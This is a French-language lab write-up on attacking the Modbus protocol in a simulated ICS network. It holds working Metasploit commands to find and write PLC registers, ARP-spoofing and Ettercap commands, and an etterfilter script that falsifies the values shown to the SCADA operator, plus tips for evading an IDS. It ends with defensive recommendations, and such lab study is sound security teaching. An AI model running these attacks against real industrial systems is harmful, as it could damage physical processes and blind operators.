# Lab 02 — Analyse et exploitation du protocole Modbus dans un réseau OT/ICS


> **Outils** : Metasploit · Modbus Slave (simulateur PLC) · ScadaBR · Ettercap · Wireshark
> **Environnement** : Windows (hôte — PLC simulé + ScadaBR) · Parrot/Kali (VM attaquant)

> 📸 Les captures sont référencées sous `Screenshots/NN-nom.png`, dans l'ordre où elles apparaissent dans le rapport. Renomme tes fichiers en conséquence (ou adapte les chemins) en les plaçant dans un dossier `Screenshots/` à la racine du repo.

---

## Table des matières

1. [Architecture du lab](#architecture-du-lab)
2. [Partie 01 — Reconnaissance et identification](#partie-01--reconnaissance-et-identification)
3. [Partie 02 — Manipulation et attaque du PLC](#partie-02--manipulation-et-attaque-du-plc)
4. [Attaque MITM sur le réseau ICS](#attaque-mitm-sur-le-réseau-ics)
5. [Analyse et conclusions](#analyse-et-conclusions)

---

## Architecture du lab

```
┌──────────────────────────────────────────────────────┐
│              Réseau LAN virtuel 192.168.90.0/24        │
│                                                        │
│  Windows (hôte)     → 192.168.90.1                     │
│  ├── Modbus Slave (PLC simulé) — port 502, Unit ID 133  │
│                                                        │
│  VM ScadaBR         → 192.168.90.5                      │
│  └── Supervision SCADA — interface web port 8080         │
│                                                        │
│  VM Parrot          → 192.168.90.114                    │
│  └── Machine d'attaque (Metasploit / Ettercap)           │
└──────────────────────────────────────────────────────┘
```

### Carte mémoire du PLC simulé (Unit ID = 133)

| Type | Function Code | Variable | Adresse | Valeur initiale |
|------|---------------|----------|---------|------------------|
| Coils | F=01 | FAN | 0 | 1 |
| Coils | F=01 | GREEN | 2 | 1 |
| Coils | F=01 | RED | 3 | 0 |
| Coils | F=01 | VANE_1 | 5 | 1 |
| Discrete Inputs | F=02 | START | 0 | 1 |
| Discrete Inputs | F=02 | AUTO | 1 | 1 |
| Input Registers | F=04 | LEVEL | 0 | 50 |
| Input Registers | F=04 | TEMP | 2 | 20 |
| Holding Registers | F=03 | CT | 0 | 3 |
| Holding Registers | F=03 | VFD | 2 | 512 |
| Holding Registers | F=03 | VANE_2 | 4 | 50 |
| Holding Registers | F=03 | Motor | 6 | 10 |


*Les 4 fenêtres du simulateur Modbus Slave (`plc_inputStat.mbs`, `plc_inputReg.mbs`, `plc_HoldingReg.mbs`, `plc_coils.mbs`) affichent en temps réel l'état de chaque zone mémoire du PLC (Unit ID 133) — c'est la référence utilisée tout au long du TP pour vérifier que les lectures/écritures Modbus effectuées via Metasploit correspondent bien à l'état réel de l'automate.*


*Configuration du simulateur en écoute Modbus TCP/IP sur le port 502 — c'est cette absence totale de mécanisme d'authentification à ce niveau qui est exploitée dans tout le reste du TP.*

---

## Partie 01 — Reconnaissance et identification

### 1. `modbus_findunitid`

Scan d'une plage d'Unit IDs pour identifier l'esclave Modbus actif derrière l'adresse IP cible.

```bash
msf > use auxiliary/scanner/scada/modbus_findunitid
msf auxiliary(modbus_findunitid) > set RHOSTS 192.168.90.1
msf auxiliary(modbus_findunitid) > set UNIT_ID_FROM 130
msf auxiliary(modbus_findunitid) > set UNIT_ID_TO 135
msf auxiliary(modbus_findunitid) > run
```

**Résultat :**
```
[*] Running module against 192.168.90.1
[*] 192.168.90.1:502 - Received: incorrect/none data from stationID 130
[*] 192.168.90.1:502 - Received: incorrect/none data from stationID 131
[*] 192.168.90.1:502 - Received: incorrect/none data from stationID 132
[+] 192.168.90.1:502 - Received: correct MODBUS/TCP from stationID 133   ← PLC trouvé !
[*] 192.168.90.1:502 - Received: incorrect/none data from stationID 134
[*] 192.168.90.1:502 - Received: incorrect/none data from stationID 135
[*] Auxiliary module execution completed
```


*Configuration du module (`RHOSTS`, `UNIT_ID_FROM`/`UNIT_ID_TO`) puis exécution : première tentative avec une mauvaise adresse, corrigée en `192.168.90.1`. Le scan confirme l'Unit ID **133**.*


*Vue complète du résultat : chaque stationID de la plage reçoit une requête Modbus, seule l'unité 133 répond correctement.*

**Analyse Wireshark (Q4) :**


*Filtre `tcp.port == 502` : une nouvelle connexion TCP est ouverte pour chaque Unit ID testé (SYN → SYN-ACK → ACK → requête Modbus → FIN), ce qui rend le scan facilement repérable sur le réseau malgré sa simplicité.*


*Détail d'un paquet : Transaction ID 8448, Unit Identifier 133, Function Code 4 (Read Input Registers), **Exception : Illegal data value (3)**. Le principe du module est là : il envoie une requête *Read Input Registers* à chaque Unit ID de la plage et considère l'ID comme actif dès qu'il reçoit **une réponse Modbus bien formée** — qu'elle soit une exception ou non — alors qu'un ID inactif ne répond pas du tout ou renvoie des données incohérentes.*

---

### 2. `modbusdetect`

Confirme la présence d'un service Modbus TCP sur un hôte/Unit ID donné (probe unique, plus léger qu'un scan de plage).

```bash
msf > use auxiliary/scanner/scada/modbusdetect
msf auxiliary(modbusdetect) > set RHOST 192.168.90.1
msf auxiliary(modbusdetect) > set UNIT_ID 133
msf auxiliary(modbusdetect) > run
```

**Résultat :**
```
[+] 192.168.90.1:502 - MODBUS - received correct MODBUS/TCP header (unit-ID: 133)
[*] 192.168.90.1:502 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


*`show options` puis configuration de `RHOST` et `UNIT_ID` (133, récupéré à l'étape précédente) et lancement : le module confirme la présence du service Modbus.*


*Même principe que `modbus_findunitid` — une requête *Read Input Registers* avec exception "Illegal data value" — mais une seule requête est envoyée (contre une par ID testé), ce qui rend `modbusdetect` beaucoup plus discret : il sert à confirmer une cible déjà identifiée plutôt qu'à en découvrir une nouvelle.*

---

## Partie 02 — Manipulation et attaque du PLC

### 3. `modbusclient` — lecture des registres (Q8, Q9, Q10)

```bash
msf > use auxiliary/scanner/scada/modbusclient
[*] Setting default action READ_HOLDING_REGISTERS - view all 9 actions with the show actions command
msf auxiliary(modbusclient) > show actions
```

Actions disponibles : `READ_COILS`, `READ_DISCRETE_INPUTS`, `READ_HOLDING_REGISTERS`, `READ_INPUT_REGISTERS`, `WRITE_COIL`, `WRITE_COILS`, `WRITE_REGISTER`, `WRITE_REGISTERS`.


*Options du module : `DATA`/`DATA_COILS`/`DATA_REGISTERS` (pour l'écriture), `DATA_ADDRESS`, `HEXDUMP`, `NUMBER`, `RHOSTS`, `RPORT`, `UNIT_NUMBER`.*

#### Holding Registers (Q9)

```bash
set RHOST 192.168.90.1
set HEXDUMP true
set UNIT_NUMBER 133
set NUMBER 10
set DATA_ADDRESS 0
run
```



**Résultat :** `[3, 0, 512, 0, 50, 0, 10, 0, 0, 0]` → CT=3, VFD=512, VANE_2=50, Motor=10 ✅ conforme à la carte mémoire.






*Byte Count 20, Register 0=3, 2=512, 4=50, 6=10 — confirmation octet par octet.*

#### Coils (Q9 suite)

```bash
set ACTION READ_COILS
run
```




*Bit0=1 (FAN), Bit2=1 (GREEN), Bit3=0 (RED), Bit5=1 (VANE_1) — conforme à la carte mémoire.*

#### Discrete Inputs (Q10)

```bash
set ACTION READ_DISCRETE_INPUTS
run
```


*`[1, 1, 0, 0, ...]` → START=1, AUTO=1.*



#### Input Registers (Q10)

```bash
set ACTION READ_INPUT_REGISTERS
run
```


*`[50, 0, 20, 0, ...]` → LEVEL=50, TEMP=20.*



> **Conclusion Partie lecture** : les quatre types de données Modbus (coils, discrete inputs, holding registers, input registers) sont intégralement lisibles sans la moindre authentification, et les valeurs récupérées via Metasploit correspondent exactement à l'état réel du PLC.

---

### 4. `modbusclient` — attaque en écriture (Q11)


*Rappel de l'état de départ du PLC avant l'injection.*

**Objectif :** modifier la vitesse du moteur (registre `Motor`, adresse 6) en y écrivant la valeur 500.

```bash
set ACTION WRITE_REGISTER
set DATA_ADDRESS 6
set DATA 500
run
```

**Résultat :**
```
[*] Sending WRITE REGISTER...
[+] 192.168.90.1:502 - Value 500 successfully written at registry address 6
```




*Le simulateur Modbus Slave confirme en direct : `Motor = 500`. L'injection a bien été appliquée côté automate — un attaquant réseau, sans aucun identifiant, peut donc prendre le contrôle total d'un actionneur physique.*

| Variable | Valeur avant | Valeur après attaque |
|----------|-------------|----------------------|
| Motor (Holding Reg, @6) | 10 | **500** |

---

## Attaque MITM sur le réseau ICS

**Objectif :** intercepter la communication entre le poste de supervision ScadaBR et le PLC, puis falsifier en temps réel les données Modbus renvoyées à l'opérateur, sans que celui-ci ne détecte l'anomalie.

### Mise en place de ScadaBR


*Interface web de supervision, accessible sur `http://192.168.90.5:8080/ScadaBR/login.htm`.*


*Configuration de la source de données Modbus IP (hôte `192.168.90.1`, port 502) et test de lecture des holding registers (Slave id 133) : `0003, 0000, 0200, 0000, 0032, 0000, 000a...` → CT=3, VFD=512, VANE_2=50, **Motor=10** (état de référence pour la démonstration MITM, indépendant de l'attaque précédente).*

### 1) ARP Spoofing

```bash
# Terminal 1 — dit à ScadaBR que le PLC est à l'adresse MAC de l'attaquant
sudo arpspoof -i eth0 -t 192.168.90.5 192.168.90.1
```



```bash
# Terminal 2 — dit au PLC que ScadaBR est à l'adresse MAC de l'attaquant
sudo arpspoof -i eth0 -t 192.168.90.1 192.168.90.5
```



> Les deux commandes combinées empoisonnent les caches ARP dans les deux sens : la machine Parrot (`192.168.90.114`) s'intercale entre ScadaBR et le PLC.

### Vérification de l'interception (avant filtre)


*Le trafic Modbus entre ScadaBR (`192.168.90.5`) et le PLC (`192.168.90.1`) passe maintenant par la machine d'attaque : retransmissions TCP et un *ICMP Redirect* trahissent l'instabilité provoquée par l'empoisonnement ARP, mais la requête *Read Holding Registers* est bien visible et décodée.*



**Test avec Ettercap sans filtre :**

```bash
sudo ettercap -T -q -i eth0 -M arp:remote /192.168.90.5// /192.168.90.1//
```


*`ARP poisoning victims: GROUP 1: 192.168.90.5 / GROUP 2: 192.168.90.1` — Ettercap prend en charge l'empoisonnement ARP en interne (alternative à `arpspoof`) et commence le sniffing unifié.*


*Le trafic HTTP de l'interface web ScadaBR (port 8080) est également visible depuis la position MITM, en plus du trafic Modbus (ici une réponse *Read Input Registers*) — toute la chaîne de supervision est exposée, pas seulement le protocole industriel.*

### 2) Construction et compilation du filtre Ettercap

```c
// /tmp/mitm_modbus.ecf
if (ip.proto == TCP && tcp.src == 502) {

    # Falsifier les Coils (VANE_1, FAN, GREEN)
    if (search(DATA.data, "\x85\x01")) {
        msg("MITM: Falsification coils\n");
        replace("\x85\x01\x02\x25", "\x85\x01\x02\x00");
    }

    # Falsifier les Holding Registers (Motor = 10 -> 0)
    if (search(DATA.data, "\x85\x03")) {
        msg("MITM: Falsification registers\n");
        replace("\x00\x0a", "\x00\x00");
    }

    # Bloquer toute commande VANE_1 ON -> forcer OFF
    if (search(DATA.data, "\x85\x05\x00\x05\xff\x00")) {
        msg("MITM: Blocage START\n");
        replace("\xff\x00", "\x00\x00");
    }
}
```



```bash
etterfilter /tmp/mitm_modbus.ecf -o /tmp/mitm_modbus.ef
```


*14 tables de protocole chargées, 13 constantes chargées, script compilé en 16 instructions.*

### 3) Lancement de l'attaque avec filtre actif

```bash
sudo ettercap -T -q -i eth0 -F /tmp/mitm_modbus.ef -M arp:remote //192.168.90.5// //192.168.90.1//
```


*Deux événements notables apparaissent en direct :*
```
HTTP : 192.168.90.5:8080 -> USER: admin  PASS: admin
       INFO: http://192.168.90.5:8080/ScadaBR/login.htm
       CONTENT: username=admin&password=admin
MITM: Falsification registers
```
*En plus de déclencher la falsification des registres Modbus, la position MITM permet de sniffer en clair les identifiants de connexion ScadaBR (`admin`/`admin`) — un bonus de l'attaque, révélateur de l'absence de HTTPS sur l'interface de supervision.*

### 4) Résultat : le moteur reste "ON" aux yeux de l'opérateur


*Le PLC réel tourne bel et bien avec `Motor = 10`.*


*Lecture des holding registers depuis ScadaBR : le registre 6 (Motor) est lu à **0x0000 = 0**, alors que la vraie valeur sur le PLC est 10 — la substitution `\x00\x0a → \x00\x00` du filtre a fonctionné.*


*Lecture des coils depuis ScadaBR : les 10 valeurs remontent à `false`, alors que `FAN`, `GREEN` et `VANE_1` sont réellement à 1 sur le PLC — la substitution des coils fonctionne également.*

| Variable | État réel (PLC) | État affiché (ScadaBR, falsifié) |
|----------|-----------------|-----------------------------------|
| Motor | **10** | **0** |
| FAN | **ON (1)** | **false** |
| GREEN | **ON (1)** | **false** |
| VANE_1 | **ON (1)** | **false** |

> ✅ **Attaque réussie** : l'opérateur perd toute visibilité fiable sur l'état réel du procédé — le centre de supervision affiche un état totalement déconnecté de la réalité, sans lever d'alerte.

### Q12 — Pistes d'amélioration du filtre

- Généraliser la recherche de motifs à toutes les adresses de coils/registres pertinentes plutôt qu'à une seule valeur figée, pour rester valide même si la configuration change légèrement.
- Intercepter le trafic dans les **deux sens** (requêtes de l'opérateur ET réponses du PLC) pour neutraliser aussi les commandes envoyées manuellement depuis ScadaBR.
- Recalculer systématiquement la longueur/le checksum Modbus après substitution afin d'éviter qu'un paquet altéré ne soit rejeté comme malformé.
- Restreindre l'activation du filtre à des conditions précises (IP source/destination, plage horaire) plutôt qu'à tout le port 502, pour réduire le risque de détection par un IDS industriel.

---

## Analyse et conclusions

### Vulnérabilités démontrées

| N° | Vulnérabilité | Impact |
|----|----------------|--------|
| 1 | Absence d'authentification Modbus | Tout équipement du réseau peut lire/écrire les registres du PLC |
| 2 | Absence de chiffrement | Trafic Modbus (et HTTP ScadaBR) en clair, interceptable par Wireshark |
| 3 | Pas de vérification d'intégrité | Les paquets peuvent être modifiés en transit sans détection |
| 4 | ARP non sécurisé | L'ARP spoofing permet un MITM sans alerte |
| 5 | Identifiants ScadaBR par défaut, transmis en clair (HTTP) | Compromission de la console de supervision elle-même |

### Recommandations de sécurité

- **Segmentation réseau** : isoler les réseaux OT/ICS du réseau IT (modèle de Purdue).
- **Chiffrement** : Modbus/TCP over TLS, ou VPN dédié pour les flux de supervision.
- **Authentification** : remplacer/compléter Modbus par un protocole industriel sécurisé (OPC-UA).
- **Durcissement ScadaBR** : HTTPS obligatoire, changement des identifiants par défaut.
- **Surveillance** : IDS industriel pour détecter les anomalies de trafic Modbus et les empoisonnements ARP.
- **ARP sécurisé** : entrées ARP statiques ou Dynamic ARP Inspection (DAI) sur les commutateurs.

### Cartographie MITRE ATT&CK for ICS

| Tactique | Technique | Illustration dans ce TP |
|----------|-----------|--------------------------|
| Discovery | T0846 — Remote System Discovery | `modbus_findunitid`, `modbusdetect` |
| Collection | T0802 — Automated Collection | `modbusclient` (lecture coils/registres) |
| Impair Process Control | T0836 — Modify Parameter | `modbusclient` (écriture Motor = 500) |
| Impact | T0831 — Manipulation of Control | Filtre Ettercap (falsification Motor/coils) |
| Credential Access | T0812 — Default Credentials | Identifiants ScadaBR `admin`/`admin` sniffés |

---

## Outils utilisés

| Outil | Rôle |
|-------|------|
| **Metasploit** (`msfconsole`) | Reconnaissance et exploitation Modbus |
| **Modbus Slave** | Simulation du PLC industriel |
| **ScadaBR** | Système de supervision HMI/SCADA |
| **arpspoof / Ettercap** | ARP spoofing et interception MITM |
| **etterfilter** | Compilation des filtres de falsification de trafic |
| **Wireshark** | Capture et analyse du trafic réseau |

---

*Writeup réalisé dans un environnement de laboratoire virtualisé et isolé, à des fins strictement pédagogiques.*